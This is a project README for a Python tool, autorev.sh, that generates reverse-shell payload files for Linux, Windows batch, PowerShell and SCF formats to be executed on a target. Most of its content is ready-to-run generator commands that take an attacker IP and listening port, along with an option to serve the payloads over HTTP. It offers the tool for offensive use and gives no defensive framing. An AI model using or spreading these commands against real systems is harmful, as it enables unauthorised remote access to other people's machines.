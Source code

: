 ![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_banner.png) 

#                              Autorev.sh

The Python Script will generate a (.) extension file with reverse shell codes then you can execute the script on the target [support windows and linux both]

#                              Usage

## Generating linux

```
python3 <path to autorev>/autorev.py -i 192.168.1.1 -p 443 -s 8000
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_lin.png)  

## Generating Windows bat

```
python3 <path to autorev>/autorev.py -i 192.168.1.1 -p 443 -s 8000 -f winc
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_winc.png)  

## Generating Windows ps1

```
python3 <path to autorev>/autorev.py -i 192.168.1.1 -p 443 -s 8000 -f winp
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_winp.png)

### Generating SCF

```
python3 autorev.sh -i <your-ip> -p <your-port> -o <scf-file-name> -f scf
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_scf.png) 

> All Usage commands will be also generated and print according to the given switches

##                           HELP Menu

```
-h,        --help   HELP   show this help message and exit
-i IPADDR, --ipaddr IPADDR LHOST Attacker IP address
-p PORT,   --port   PORT   LPORT Port to get reverse shell on [Default 9001]
-o OUT,    --out    OUT    Output File Name [Excluding (.)extension Extension][OPTIONAL]
-f FORMAT, --format FORMAT Define Format for generator [lin | win[c/p](c = cmd | p = powershell) | scf][Default=lin]
-s SERVER, --server SERVER Port to use for generating commands (http://[your-ip]:[PORT]) (Default 80)
```
